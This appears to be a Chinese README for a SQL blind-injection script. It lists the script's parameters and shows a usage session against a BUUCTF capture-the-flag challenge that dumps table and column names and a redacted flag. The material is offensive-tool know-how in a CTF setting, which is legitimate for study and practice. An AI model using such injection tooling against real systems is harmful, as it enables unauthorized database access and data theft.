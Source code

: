 # SQL盲注脚本

## 0x01 整数型注入脚本

以BUUCTF [[WUSTCTF2020]颜值成绩查询](https://buuoj.cn/challenges#[WUSTCTF2020]%E9%A2%9C%E5%80%BC%E6%88%90%E7%BB%A9%E6%9F%A5%E8%AF%A2)这道题为例，演示脚本如何使用。

### 参数

- url:要进行盲注的url
- require method:请求方式
- right string:返回为true时的特征文本
- right id:结果为true时提交的参数
- error id:结果为false时提交的参数
- function:使用哪种函数

### 使用

```python
    >input url(e.g,'get:www.example.com?id=,post:www.example.com'):http://cfe08f29-9167-488c-b6db-3354144ab882.node4.buuoj.cn:81/?stunum=
    >input require method(Get/Post):get
    >input right string:Hi admin
    >input right id(the number while be used when the result is right):1
    >input error id:2
    >select function(if/elt):if
	<result:{'flag': ['flag', 'value'], 'score': ['id', 'name', 'score']}
	>input table which you want to dump:flag
    >columns:['flag', 'value']
	>input columns(split by ','):flag,value
    <result:['flagflag{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}']
```



